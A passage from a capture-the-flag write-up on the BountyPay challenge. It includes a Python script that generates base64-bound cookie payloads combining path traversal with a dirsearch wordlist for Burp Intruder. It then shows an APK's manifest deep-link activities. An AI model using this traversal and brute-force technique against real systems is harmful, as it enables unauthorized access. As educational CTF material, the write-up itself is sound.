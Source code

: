 At this time, just need to find some sensitive directory or file in software subdomain, so i generate a cookie payload list with python using the dirsearch dictionary, import it in burp intruder and process payload with base64 encoding.

```
#!/usr/bin/python3
file = open("payloads.txt","a") 
with open('dicc.txt') as fp:
   line = fp.readline()
   while line:
       url = 'https://software.bountypay.h1ctf.com/{}/#'.format(line.strip())
       l = '{"account_id":"../../redirect?url=%s","hash":"de235bffd23df6995ad4e0930baac1a2"}' % url
       file.write(l+'\n') 
       line = fp.readline()
file.close()
```
Send the request to intruder and import payload list.
{F858200}
{F858201}

Then found an apk in https://software.bountypay.h1ctf.com/uploads/BountyPay.apk  
Time to analize apk file!

4. Hardcoded validation
---------------------

Extracting apk file and reading AndroidManifest.xml got some interesting information

```xml
<activity android:label="@string/title_activity_part_three" android:name="bounty.pay.PartThreeActivity" android:theme="@style/AppTheme.NoActionBar">
            <intent-filter android:label="">
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:host="part" android:scheme="three"/>
            </intent-filter>
        </activity>
        <activity android:label="@string/title_activity_part_two" android:name="bounty.pay.PartTwoActivity" android:theme="@style/AppTheme.NoActionBar">
            <intent-filter android:label="">
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:host="part" android:scheme="two"/>
            </intent-filter>
        </activity>
        <activity android:label="@string/title_activity_part_one" android:name="bounty.pay.PartOneActivity" android:theme="@style/AppTheme.NoActionBar">
            <intent-filter android:label="">
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:host="part" android:scheme="one"/>
            </intent-filter>
        </activity>
```
